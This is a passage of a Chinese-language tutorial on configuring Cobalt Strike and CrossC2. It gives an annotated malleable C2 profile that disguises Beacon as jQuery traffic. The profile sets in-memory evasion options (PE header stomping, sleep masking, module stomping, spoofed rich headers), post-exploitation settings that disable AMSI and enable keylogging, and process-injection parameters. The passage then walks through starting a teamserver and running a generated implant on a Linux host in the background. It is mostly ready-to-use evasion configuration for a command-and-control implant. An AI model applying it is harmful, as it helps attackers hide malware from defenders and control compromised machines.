            append "\".(o=t.documentElement,Math.max(t.body[\"scroll\"+e],o[\"scroll\"+e],t.body[\"offset\"+e],o[\"offset\"+e],o[\"client\"+e])):void 0===i?w.css(t,n,s):w.style(t,n,i,s)},t,a?i:void 0,a)}})}),w.each(\"blur focus focusin focusout resize scroll click dblclick mousedown mouseup mousemove mouseover mouseout mouseenter mouseleave change select submit keydown keypress keyup contextmenu\".split(\" \"),function(e,t){w.fn[t]=function(e,n){return arguments.length>0?this.on(t,null,e,n):this.trigger(t)}}),w.fn.extend({hover:function(e,t){return this.mouseenter(e).mouseleave(t||e)}}),w.fn.extend({bind:function(e,t,n){return this.on(e,null,t,n)},unbind:function(e,t){return this.off(e,null,t)},delegate:function(e,t,n,r){return this.on(t,e,n,r)},undelegate:function(e,t,n){return 1===arguments.length?this.off(e,\"**\"):this.off(t,e||\"**\",n)}}),w.proxy=function(e,t){var n,r,i;if(\"string\"==typeof t&&(n=e[t],t=e,e=n),g(e))return r=o.call(arguments,2),i=function(){return e.apply(t||this,r.concat(o.call(arguments)))},i.guid=e.guid=e.guid||w.guid++,i},w.holdReady=function(e){e?w.readyWait++:w.ready(!0)},w.isArray=Array.isArray,w.parseJSON=JSON.parse,w.nodeName=N,w.isFunction=g,w.isWindow=y,w.camelCase=G,w.type=x,w.now=Date.now,w.isNumeric=function(e){var t=w.type(e);return(\"number\"===t||\"string\"===t)&&!isNaN(e-parseFloat(e))},\"function\"==typeof define&&define.amd&&define(\"jquery\",[],function(){return w});var Jt=e.jQuery,Kt=e.$;return w.noConflict=function(t){return e.$===w&&(e.$=Kt),t&&e.jQuery===w&&(e.jQuery=Jt),w},t||(e.jQuery=e.$=w),w});";
            print;
        }
    }
}

```

### stage, 用于自定义Beacon（Cobalt Strike的恶意软件组件）在内存中的加载方式和表现形式,也就是用来自定义伪装cs自带的那些命令是如何在内存中表现的

```
stage {
    # CS 4.2 added allocator and MZ header overrides
    set allocator      "VirtualAlloc"; # allocator用于设置Beacon的反射加载器（Reflective Loader）,如何为代理（agent）分配内存  Options are: HeapAlloc, MapViewOfFile, and VirtualAlloc
    #set magic_mz_x86   "MZRE";
    #set magic_mz_x64   "MZAR";
    set magic_pe       "NO";  # 不覆盖Beacon的反射加载器使用的PE文件
    set userwx         "false";   # 不要求反射加载器在内存中的权限
    set stomppe        "true";  # 要求反射加载器在加载Beacon有效载荷后覆盖MZ（Microsoft Windows Portable Executable File）头、PE头和e_lfanew值。
    set obfuscate      "true";  # obfuscate启用对反射DLL的导入表进行混淆，覆盖未使用的头部内容，并要求反射加载器在没有DLL头的情况下将Beacon复制到新内存中
    set cleanup        "true";  # cleanup要求Beacon尝试释放与反射DLL包相关联的内存。
    # CS 3.12 Addition "Obfuscate and Sleep"
    set sleep_mask     "true";  # 启用在Beacon（HTTP、SMB、TCP Beacons）在内存中睡眠或等待新连接/数据之前对其进行混淆的功能
    # CS 4.1  
    set smartinject    "true";  # 启用使用嵌入式函数指针提示来引导Beacon代理

    # Make the Beacon Reflective DLL look like something else in memory
    # Values captured using peclone agaist a Windows 10 version of explorer.exe
    set checksum       "0";  # 设置Beacon的PE头部中的校验和值。
    set compile_time   "11 Nov 2016 04:08:32";  # 设置Beacon的PE头部中的编译时间
    set entry_point    "650688";  # 设置Beacon的PE头部中的入口点值。
    set image_size_x86 "4661248";
    set image_size_x64 "4661248";
    set name           "srv.dll";
    set rich_header    "\x75\x92\x8d\x57\x7e\xda\xcd\x57\xf8\x85\x35\xab\x72\x6a\x6e\xee\xa2\x86\x29\x6c";

    ## WARNING: Module stomping 
    # Cobalt Strike 3.11 also adds module stomping to Beacon's Reflective Loader. When enabled, Beacon's loader will shun VirtualAlloc and instead load a DLL into the current process and overwrite its memory.
    # Set module_x86 to a favorite x86 DLL to module stomp with the x86 Beacon. The module_x64 option enables this for the x64 Beacon.
    # While this is a powerful feature, caveats apply! If the library you load is not large enough to host Beacon, you will crash Beacon's process. If the current process loads the same library later (for whatever reason), you will crash Beacon's process. Choose carefully.
    # By default, Beacon's loader allocates memory with VirtualAlloc. Module stomping is an alternative to this. Set module_x86 to a DLL that is about twice as large as the Beacon payload itself. Beacon's x86 loader will load the specified DLL, find its location in memory, and overwrite it. This is a way to situate Beacon in memory that Windows associates with a file on disk. It's important that the DLL you choose is not needed by the applications you intend to reside in. The module_x64 option is the same story, but it affects the x64 Beacon.
    # Details can be found in the In-memory Evasion video series. https://youtu.be/uWVH9l2GMw4

    # set module_x64 "netshell.dll";
    # set module_x86 "netshell.dll";

    # The transform-x86 and transform-x64 blocks pad and transform Beacon's Reflective DLL stage. These blocks support three commands: prepend, append, and strrep.
    transform-x86 { # transform the x86 rDLL stage
        prepend "\x87\xdb\x66\x87\xd2\x49\x66\x90\x87\xd2\x0f\x1f\x00\x87\xc9\x41\x66\x87\xc9\x42\x44\x0f\x1f\x00\x40\x40\x66\x87\xdb\x0f\x1f\x04\x00\x48\x46\x4c\x90\x45\x43\x47\x66\x0f\x1f\x04\x00\x0f\x1f\x00"; # prepend nops
        strrep "ReflectiveLoader" "execute"; # Change this text
        strrep "This program cannot be run in DOS mode" ""; # Remove this text
        strrep "beacon.dll" ""; # Remove this text
    }
    transform-x64 { # transform the x64 rDLL stage
        prepend "\x87\xdb\x66\x87\xd2\x49\x66\x90\x87\xd2\x0f\x1f\x00\x87\xc9\x41\x66\x87\xc9\x42\x44\x0f\x1f\x00\x40\x40\x66\x87\xdb\x0f\x1f\x04\x00\x48\x46\x4c\x90\x45\x43\x47\x66\x0f\x1f\x04\x00\x0f\x1f\x00"; # prepend nops
        strrep "ReflectiveLoader" "execute"; # Change this text in the Beacon DLL
        strrep "beacon.x64.dll" ""; # Remove this text in the Beacon DLL
    }

    stringw "jQuery"; # Add this string to the DLL
}

```

### post-ex 后渗透相关

```
post-ex {
        # 指定了32位Beacon在执行后渗透（post-exploitation）任务时注入shellcode的目标程序路径
        set spawnto_x86 "%windir%\\syswow64\\WerFault.exe";
        set spawnto_x64 "%windir%\\sysnative\\WerFault.exe";
        # 启用对后渗透DLL的混淆
        set obfuscate "true";
        # 启用智能注入功能
        set smartinject "true";
        # 禁用AMSI
        set amsi_disable "true";
        # 定义了用于后渗透任务的命名管道名称。
        set pipename "Winsock2\\CatalogChangeListener-###-0,";
        # 设置键盘记录使用的函数
        set keylogger "GetAsyncKeyState";
}

```

### process-inject 进程注入自定义的参数

```
process-inject {
    set allocator "NtMapViewOfSection";  # 设置远程进程中内存分配的方法为 NtMapViewOfSection
    set min_alloc "17500";  # 注入内容的最小内存分配大小
    
    # Set memory permissions as permissions as initial=RWX, final=RX
    set startrwx "false";  # 注入内容的初始内存权限,false意味着不是读写执行
    set userwx   "false";   # 最终内存权限
    transform-x86 {
        prepend "\x87\xdb\x66\x87\xd2\x49\x66\x90\x87\xd2\x0f\x1f\x00\x87\xc9\x41\x66\x87\xc9\x42\x44\x0f\x1f\x00\x40\x40\x66\x87\xdb\x0f\x1f\x04\x00\x48\x46\x4c\x90\x45\x43\x47\x66\x0f\x1f\x04\x00\x0f\x1f\x00";
        #append "\x90\x90";
    }
    transform-x64 {
        prepend "\x87\xdb\x66\x87\xd2\x49\x66\x90\x87\xd2\x0f\x1f\x00\x87\xc9\x41\x66\x87\xc9\x42\x44\x0f\x1f\x00\x40\x40\x66\x87\xdb\x0f\x1f\x04\x00\x48\x46\x4c\x90\x45\x43\x47\x66\x0f\x1f\x04\x00\x0f\x1f\x00";
        #append "\x90\x90";
    }
  

    execute {
        CreateThread "ntdll!RtlUserThreadStart+0x42";
        CreateThread;
        NtQueueApcThread-s;
        CreateRemoteThread;
        RtlCreateUserThread; 
    }
}
```

### 修改profile文件, 增强opsec的效果

**prepend.py**是一个 python 脚本，它生成动态垃圾 shellcode，该 shellcode 将附加在实际 shellcode 的开头。要使用该脚本，请执行：

```
python3 prepend.py
```

复制输出并将其粘贴到配置文件中（在 transform-x64 或 transform-x86 块内）。配置文件将如下所示：

```
 transform-x64 {
prepend 
"\x44\x40\x4B\x43\x4C\x48\x90\x66\x90\x0F\x1F\x00\x66\x0F\x1F\x04\x00\x0F\x1F\x04\x00\x0F\x1F\x00\x0F\x1F\x00";
#append "\x90\x90";
    }
```

**rich_header.py**是一个 python 脚本，它生成动态 shellcode，负责编译器插入的元信息。Rich 标头是一个 PE 部分，用作 Windows 可执行文件生成环境的指纹。要使用该脚本，请执行：

```
python3 rich_header.py
```

复制输出并将其粘贴到配置文件中。配置文件将如下所示：

```
stage {
  ...
  set rich_header "\x2e\x9a\xad\xf1...";
  ...
}
```

## 3.4检查profile文件

测试是否可用

```
chmod+x c2lint
./c2lint [/path/to/my.profile] # 如 ./c2lint bing_jx.profile

# 进行各种协议 如 smb , http , https的请求模拟 , 判断是否可用 , 请求结束下面会有结果输出 (黄色警告,红色语法错误)
```



使用profile文件 , 启动cs

```
./teamserver 192.168.101.48 123456 jquery-c2.4.5-jx.profile
```

# 4.CS配置linux上线

## 4.1下载 CrossC2

cs默认是不支持上线linux主机的 , 但是可以通过安装CrossC2插件实现 

**因为一些原因，目前强制只支持HTTPS beacon。**

下载地址 

```
https://github.com/gloxec/CrossC2/releases
```



然后解压zip压缩包 , 这里我放到cs安装目录的** script**目录 下 , 推荐这个目录



## 4.2安装插件

首先编辑**CrossC2-GithubBot-2021-11-02.cna**文件



复制cs服务端目录下的 .cobaltstrike.beacon_keys 到与 genCrossC2.Win.exe 在一个目录下


启动cs , 使用客户端加载cna插件 ，选择Script Manager，添加CrossC2.cna (如果成功安装，菜单栏会多出一项 CrossC2)



点击加载 , 选择 CrossC2-GithubBot-2021-11-02.cna 文件

## 4.3上线测试

首先新建一个https的监听







## 4.4执行木马上线

生成的木马在客户端当前目录下



上传到linux机器, 执行

```
chmod +x t_cc2.out 
./t_cc2.out
# 后台运行
nohup ./t_cc2.out &
```

上线成功

# 5.CobaltStrike-[Cat]-4.5

客户端登录：

```
C:\Users\86178\Desktop\Tools\cat_cs4.5_5.1_client\jdk-11.0.15.1\bin\java.exe  -jar cat_client.jar client
```